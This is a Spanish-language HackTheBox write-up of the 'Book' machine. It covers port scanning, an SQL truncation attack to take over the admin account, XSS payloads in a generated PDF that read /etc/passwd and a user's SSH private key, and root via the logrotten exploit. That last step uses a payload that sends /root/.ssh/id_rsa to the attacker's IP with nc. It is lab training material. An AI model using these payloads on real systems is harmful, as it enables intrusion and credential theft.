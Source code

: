 ```yaml
---
title: HTB Book Write-up (Español)
tags: [HackTheBox, SQL Truncation, Server Side XSS]
image: /assets/images/Book/1__gO7gprHuw3HwbrlPoj3zCQ.png
published: true
banner: true
---
```


I cloned my writeup that was originally posted on [medium](https://medium.com/@5ubterranean/htb-book-write-up-espa%C3%B1ol-534fb850f19)

Book es una máquina basada en Linux que estuvo activa desde el 22 de Febrero del 2020 hasta el 11 de Julio, desde mi punto de vista fue una máquina bastante complicada, ya que nunca antes me había encontrado con ninguna de las vulnerabilidades que esta máquina tenía, empezamos revisando la página web donde tenemos que crearnos una cuenta para acceder, también encontramos que el login de administrador usa una página aparte, una cosa que notamos al momento de registrarnos es que el servidor limita la logitud del nombre de usuario (y también del correo), tras investigar un poco encontraremos que podemos usar un sql truncation attack para crear un cuanta de administrador y así acceder a su panel, en dicho panel no encontraremos algo realmente interesante, solo unos reportes de la página en formato PDF, una vez más tenemos que investigar qué podemos hacer con esto, nos encontramos con un blog donde describe cómo podemos leer archivos del servidor a través de un PDF generado dinámicamente, usando esta vulnerabilidad exploramos el servidor y conseguimos las llave SSH del usuario “reader”, la escalación de privilegios se conseguirá por una vulnerabilidad de race condition en logrotate, la cual usaremos para conseguir la llave SSH del usuario root.

# Enumeración

Empezamos usando masscan para encontrar todos los puertos disponibles y luego usamos nmap para conseguir más información de los mismos.

```bash
masscan -e tun0 --rate=500 -p 0–65535 10.10.10.176  
nmap -sC -sV -p 80,22, -Pn -o scan.txt 10.10.10.176

PORT   STATE SERVICE VERSION  
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)  
| ssh-hostkey:   
|   2048 f7:fc:57:99:f6:82:e0:03:d6:03:bc:09:43:01:55:b7 (RSA)  
|   256 a3:e5:d1:74:c4:8a:e8:c8:52:c7:17:83:4a:54:31:bd (ECDSA)  
|\_  256 e3:62:68:72:e2:c0:ae:46:67:3d:cb:46:bf:69:b9:6a (ED25519)  
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))  
| http-cookie-flags:   
|   /:   
|     PHPSESSID:   
|\_      httponly flag not set  
|\_http-server-header: Apache/2.4.29 (Ubuntu)  
|\_http-title: LIBRARY - Read | Learn | Have Fun  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux\_kernel
```

Solo tenemos SSH y HTTP, por lo que empezamos por la página web, lanzamos gobuster para ver qué encontramos: `gobuster dir -u [http://10.10.10.176/](http://10.10.10.176/) -w /usr/share/wordlists/dirb/common.txt -t 30 -x txt,php,html`.

![](/assets/images/Book/1__v__kqS2ru__62Op8ptlZSvGw.png)


Esto nos revela que existe un directorio de “admin”, este será útil luego, primero entramos a su página como tal y vemos un login.

![](/assets/images/Book/1__rDu7A1b9U__sdVkAjkaeZUQ.png)


No tenemos ninguna información para poner aquí, pero vemos que nos ofrece una opción para crearnos una cuenta así que la probamos.

![](/assets/images/Book/1__etSXXqXnLgAeCTSleb42mA.png)


Esta funciona y podemos logearnos, parece una especie de página dedicada a los libros.

![](/assets/images/Book/1__Ny2cShJv__l__6UVogapMkag.png)


# Ganando acceso

Lo más interesante lo encontramos en [http://10.10.10.176/profile.php](http://10.10.10.176/profile.php).

![](/assets/images/Book/1__qr0c0__i4Qjf4oI451sWTVQ.png)


Como se ve el nombre no es exactamente el mismo que introducimos, sino que fue recortado, esta es la pista para encontrar la vulnerabilidad, aunque necesitamos saber cuál en el correo del administrador, entramos a “contact us” y lo encontramos ahí.

![](/assets/images/Book/1__h4W3m__eyPhaZjUANDjiLtw.png)


Ahora lo que tenemos que hacer es un [sql truncation attack](https://resources.infosecinstitute.com/sql-truncation-attack/), lo que ocurre aquí es que si bien el servidor recorta la información que ingresemos a 10 caracteres, toda la cadena que pongamos es verificada antes de hacer este recorte, por ejemplo si quisiéramos crear una cuenta con el nombre “5ubterrane” no podríamos ya que este ya está en uso, pero si en su lugar registramos “5ubterrane ” (Noten el espacio), esta sí sería aceptada, y luego al hacerse el recorte obtendríamos en mismo nombre, podemos usar cualquier otro caracter en lugar del espacio, pero esto es importante si queremos crear un cuenta con un nombre menor al límite (por ejemplo “admin”), ya que una vez ejecutado el recorte los espacios serán ignorados, los mismo pasa con el campo del e-mail, aunque en este caso tenemos un control en el fronted, por lo que ejecutaremos la petición con burp para pasarlo.

![](/assets/images/Book/1__QrbM__kyxJYKHUawJMsNQVw.png)


Una vez creamos la cuenta con una cualquier contraseña podemos acceder a esta, el servidor elimina las cuentas duplicadas cada corto tiempo, por lo que tenemos que acceder rápido, por suerte ya que la cookie es un PHPSESSID podemos logearnos con burp, y al recargar nuestro navegador este también ya estará logeado.

![](/assets/images/Book/1__NXesghrIDD5je9Wmk72wKA.png)


En el panel de administrador no parece haber funciones muy interesantes.

![](/assets/images/Book/1____65bwE2NsPr9BqcxXWfoYA.png)


Si descargamos el PDF de collections vemos la siguiente información en el archivo descargado.

![](/assets/images/Book/1__oXfmRtYpWQ6FSMP__4VJeOQ.png)


Este contiene el título del libro, el autor y un link de descarga, una opción que teníamos como un usuario normal era la de subir un libro, cuando hacemos eso la información que pongamos aparecerá aquí, por lo que luego de investigar un rato encontramos el siguiente [enlace](https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html), ahí vemos cómo es posible ejecutar XSS en un archivo PDF generado dinámicamente, justo lo que tenemos, entonces insertamos el siguiente payload en los campos al momento de subir un libro para conseguir el archivo “passwd”: `<script>x=new XMLHttpRequest; x.onload=function(){ document.write(this.responseText) }; x.open(“GET”,”file:///etc/passwd”); x.send();</script>`.

![](/assets/images/Book/1__qpXQlLkXpUqaU4p9hc1Wzw.png)


Y al descargar el archivo lo conseguimos.

![](/assets/images/Book/1__nVgduP4RBRlpnzCxG__jU__g.png)


Vemos que existe un usuario “reader”, ya que el servicio SSH está activo tratamos de conseguir su llave SSH (si es que la tiene), para eso cambiamos nuestro payload por: `<script>x=new XMLHttpRequest; x.onload=function(){ document.write(this.responseText) }; x.open(“GET”,”file:///home/reader/.ssh/id_rsa”); x.send();</script>`, al descargar el archivo vemos que lo conseguimos.

![](/assets/images/Book/1__308cMwk73Yb1KRFjipfXxw.png)


Bien, conseguimos la llave, pero todo el texto no entra en el lector de PDF, para poder copiarla correctamente la mejor opción es abrir el PDF con un navegador y copiarla desde ahí, pero tenemos la llave desordenada.

![](/assets/images/Book/1__ehOrI7hfLKYsHZyg__hP__RQ.png)


Para arreglarla basta con escribir un programa en python que imprima 64 caracteres por línea:

a=<llave SSH>  
q = 0  
while q < len(a):  
    print a\[q:q+64\]  
    q += 64  
print a\[q:\]

Nos conectamos usando SSH: `ssh -i id_rsa reader@10.10.10.176`. Y por fin conseguimos acceso a la máquina y el archivo user.txt.

![](/assets/images/Book/1__3F9bZQ7lZW9SVkFoNaPwpQ.png)


# Escalación de privilegios

Subimos [pspy](https://github.com/DominicBreuker/pspy) a la máquina y vemos que pasa en ella por un rato, vemos que logrotate se ejecuta como root.

![](/assets/images/Book/1__8VriVzdujtOBFrbvzTcqiw.png)


Si buscamos vulnerabilidades al respecto nos encontramos con [logrotten](https://github.com/whotwagner/logrotten/blob/master/logrotten.c), el cual es un race condition, ya que la máquina tiene instalado gcc podemos compilarlo ahí mismo, si intentamos ejecutar una reverse shell con este exploit esta durará muy poco, por lo que al igual que hicimos con el usuario extraeremos la llave SSH, pero ahora del usuario root, para eso crearemos un archivo con el siguiente contenido: ``if [ `id -u` -eq 0 ]; then (nc 10.10.15.8 54321 < /root/.ssh/id_rsa); fi``, eso mandará la llave hacia nuestro máquina donde tendremos `nc` escuchando en el puerto “54321".

![](/assets/images/Book/1__9zn__eC__ceZn__TYZff56YQA.png)


Ejecutamos el exploit con el siguiente comando: `nice -n 20 ./.logrotten -p .payload /home/reader/backups/access.log`. Vemos que aunque esperemos no pasa nada, ya que de hecho tenemos que provocar que logrotate se ejecute, para esto vamos a “/home/reader/backup”, y vemos que ahí hay un archivo llamado access.log, si escribimos algo en ese archivo logrotate será ejecutado.

![](/assets/images/Book/1__MkFZAeVWmbLVND0irdz2sw.png)
![](/assets/images/Book/1__AWk7aF4H2ZvKlsSetWiSRg.png)


Aunque hayamos obtenido el mensaje “Done!” del exploit esto no significa que este se haya ejecutado correctamente, para verificarlo tenemos que ver el contenido de nuestra payload reflejado en “/etc/bash\_completion.d/access.log”.

![](/assets/images/Book/1__KbNj8GJXyoN__QsN42lfXGQ.png)


El contenido esto ahí, ahora solo nos tenemos que volver a conectar por SSH para que se ejecute el payload y conseguir la llave SSH.

![](/assets/images/Book/1__rUxi0oOuLLCdtUmvRYfQvQ.png)


Y con eso podemos acceder con root y terminamos con la máquina.

![](/assets/images/Book/1__ofP__38biDe4xb4Ok__f2p7w.png)


# Descargo de responsabilidad

Todos los recursos brindados en este post se hicieron puramente con fines educativos y de concientización, el autor no se hace responsable por las acciones que las personas puedan realizar con el contenido del mismo.